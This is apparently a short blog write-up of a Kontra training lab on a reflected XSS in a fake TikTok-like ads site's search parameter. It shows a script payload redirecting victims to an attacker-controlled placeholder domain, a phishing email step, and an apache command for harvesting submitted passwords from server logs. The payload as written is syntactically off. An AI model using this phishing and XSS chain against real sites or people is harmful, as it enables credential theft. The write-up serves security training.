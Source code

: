 ```yaml
---
layout: post
title:  "Kontra - Tiktok XSS"
postid: writeup
categories: XSS
---
```


<br />

# Tiktok XSS
This exercise can be found under [Kontra](1)

Per cyberpoint's [research](2) on Tiktok, XSS vulnerability was found that could allow motivated threat actors to gain an access to adversaries' Ad campaigns via reflected XSS.

<br />

## XSS Exercise
We were introduced to a fake website called TikTik and we wanted to exploit search function to route an employee of targeted news company to a fake phishing page so we can have access to their password and get Ad campaign data of targeted company.

We find help page (https://ads.tiktik.com) and find that search fuction has a reflected XSS within the search term. It echos back input by WebApp in response (?q=xxx). We used following payload:

```javascript:
<script>document.location('fakewebsite.com')</script>
```
and sent a email to employee to have them click on link but be routed to crafter site. 

In order for this attack to happen, attacked must own fakewebsite domain and have a public accessible server.

The server containing website can use the following command to run server and show connection logs:
```
service apache2 start && tail -f /var/log/access.log
```

Ones targeted user uses username and password on phishing site, we gain username and password through web server's logs.

[1]:https://application.security/free-application-security-training/cross-site-scripting-vulnerability-in-tiktok
[2]:https://research.checkpoint.com/2020/tik-or-tok-is-tiktok-secure-enough/
